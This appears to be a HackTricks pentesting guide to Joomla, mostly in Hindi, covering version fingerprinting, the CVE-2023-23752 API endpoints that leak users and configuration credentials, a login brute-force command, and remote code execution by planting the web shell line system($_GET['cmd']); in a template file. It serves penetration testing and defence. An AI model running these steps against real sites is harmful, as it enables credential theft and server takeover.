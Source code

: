 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomla Statistics

Joomla कुछ गुमनाम [उपयोग सांख्यिकी](https://developer.joomla.org/about/stats.html) एकत्र करता है जैसे Joomla, PHP और डेटाबेस संस्करणों का विभाजन और Joomla इंस्टॉलेशन पर उपयोग में आने वाले सर्वर ऑपरेटिंग सिस्टम। इस डेटा को उनके सार्वजनिक [API](https://developer.joomla.org/about/stats/api.html) के माध्यम से क्वेरी किया जा सकता है।
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* **मेटा** की जांच करें
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Version

* In **/administrator/manifests/files/joomla.xml** आप संस्करण देख सकते हैं।
* In **/language/en-GB/en-GB.xml** आप Joomla का संस्करण प्राप्त कर सकते हैं।
* In **plugins/system/cache/cache.xml** आप एक अनुमानित संस्करण देख सकते हैं।

### Automatic
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology एक अनुभाग है जो CMS स्कैनर्स के बारे में है**](./#cms-scanners) जो Joomla को स्कैन कर सकते हैं।

### API अनधिकृत जानकारी का प्रकटीकरण:

संस्करण 4.0.0 से 4.2.7 अनधिकृत जानकारी के प्रकटीकरण (CVE-2023-23752) के प्रति संवेदनशील हैं जो क्रेड्स और अन्य जानकारी को डंप करेगा।

* उपयोगकर्ता: `http://<host>/api/v1/users?public=true`
* कॉन्फ़िग फ़ाइल: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF मॉड्यूल**: `scanner/http/joomla_api_improper_access_checks` या रूबी स्क्रिप्ट: [51334](https://www.exploit-db.com/exploits/51334)

### ब्रूट-फोर्स

आप इस [स्क्रिप्ट](https://github.com/ajnik/joomla-bruteforce) का उपयोग लॉगिन को ब्रूट फोर्स करने के लिए कर सकते हैं।
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

यदि आप **admin credentials** प्राप्त करने में सफल हो गए हैं, तो आप **RCE अंदर** प्राप्त कर सकते हैं **PHP कोड** का एक स्निपेट जोड़कर। हम इसे **template** को **कस्टमाइज़** करके कर सकते हैं।

1. **`Templates`** पर क्लिक करें जो `Configuration` के तहत नीचे बाईं ओर है ताकि टेम्पलेट मेनू खुल सके।
2. एक **template** नाम पर क्लिक करें। आइए **`protostar`** चुनते हैं जो `Template` कॉलम हेडर के तहत है। यह हमें **`Templates: Customise`** पृष्ठ पर ले जाएगा।
3. अंत में, आप एक पृष्ठ पर क्लिक कर सकते हैं ताकि **पृष्ठ स्रोत** खुल सके। आइए **`error.php`** पृष्ठ चुनते हैं। हम कोड निष्पादन प्राप्त करने के लिए एक **PHP one-liner** जोड़ेंगे जैसा कि निम्नलिखित है:
1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla शोषण स्क्रिप्ट जो **XSS को RCE या अन्य महत्वपूर्ण कमजोरियों में बढ़ाती है**। अधिक जानकारी के लिए [**इस पोस्ट**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html) की जांच करें। यह **Joomla संस्करण 5.X.X, 4.X.X, और 3.X.X के लिए समर्थन प्रदान करता है, और अनुमति देता है:**
* _**Privilege Escalation:**_ Joomla में एक उपयोगकर्ता बनाता है।
* _**(RCE) Built-In Templates Edit:**_ Joomla में एक Built-In Templates को संपादित करता है।
* _**(Custom) Custom Exploits:**_ तृतीय-पक्ष Joomla प्लगइन्स के लिए कस्टम शोषण।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
